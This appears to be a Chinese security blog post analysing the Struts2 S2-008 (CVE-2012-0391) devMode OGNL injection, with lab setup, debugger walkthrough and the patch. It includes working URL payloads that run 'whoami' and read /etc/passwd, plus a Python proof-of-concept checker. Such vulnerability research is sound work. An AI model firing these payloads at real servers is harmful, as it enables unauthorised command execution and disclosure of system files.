 ```yaml
---
layout: post
title: "S2-008"
subtitle: 'S2-008漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第五篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-008漏洞,又名CVE-2012-0391漏洞.

> Struts2框架存在一个devmode模式,当devmode模式开启时,Struts2对传入的参数没有严格限制,导致多个地方可以执行恶意代码.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-008)

#### 漏洞成因

> Struts2框架存在一个devmode模式,当devmode模式开启时,Struts2对传入的参数没有严格限制,导致多个地方可以执行恶意代码.

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.3.17

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29
```

#### 读取文件

```java
?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat%20/etc/passwd%27%29.getInputStream%28%29%29%29
```

### POC

```python
#!/usr/bin/env python3

import urllib
import random
import string
import requests

class S2_008_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-008漏洞,又名CVE-2012-0391漏洞',
            'description': 'Struts2 S2-008漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.17',
            'date': '2012-01-02',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
                self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/devmode.action'
        self.capta = self.get_capta() 
        self.check_payload =  '?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27''' + urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8') + '''%27%29.getInputStream%28%29%29%29'''
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            check_url = self.url + self.check_payload
            check_res = requests.get(check_url)
            if check_res.status_code == 200 and len(check_res.text) < 50 and self.capta in check_res.text:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_008 = S2_008_BaseVerify('http://localhost:8080/s2_008_war_exploded/')
    S2_008.run()
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](../img/S2-008/images/流程图.png)

&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.Struts2框架存在一个devmode模式,方便开发人员调试程序,但是默认devmode是不开启的,如果想要使用,需要手动修改参数.可以将struts.properties中的devmode设置为true,或是在struts.xml中添加如下代码.

> <constant name="struts.devMode" value="true" /> 

![debug](../img/S2-008/images/debug.png)

&emsp;&emsp;&emsp;&emsp;2.问题出现在/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/interceptor/debugging/DebuggingInterceptor.class:87函数内,在95行打断点,获取get中的debug参数的值command.

![type](../img/S2-008/images/type.png)

&emsp;&emsp;&emsp;&emsp;3.继续往下执行代码,通过if判断语句进入command分支,取得command参数的值

![command](../img/S2-008/images/command.png)

![get_command](../img/S2-008/images/get_command.png)

&emsp;&emsp;&emsp;&emsp;4.继续往下执行,通过statck.findValue即可执行OGNL表达式,造成代码执行.

![final](../img/S2-008/images/final.png)

## 漏洞修复

> 加强了对于参数的正则匹配

```java

ParametersInterceptor.class

private String acceptedParamNames = "[a-zA-Z0-9\\.\\]\\[\\(\\)_']+";

CookieInterceptor.class

private static final String ACCEPTED_PATTERN = "[a-zA-Z0-9\\.\\]\\[_'\\s]+";
```

## 总结

> struts2漏洞的精髓在ongl表达式......,自从S2-003漏洞补丁中的安全配置(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)被绕过再次导致了S2-005漏洞后.之后漏洞都需要利用OGNL先把沙盒关闭掉,xwork.MethodAccessor.denyMethodExecution设置为false,allowStaticMethodAccess设置为true,然后再执行payload.

## 参考

> https://github.com/xhycccc/Struts2-Vuln-Demo

> https://blog.csdn.net/Fly_hps/article/details/85001659

> http://drops.xmd5.com/static/drops/papers-902.html

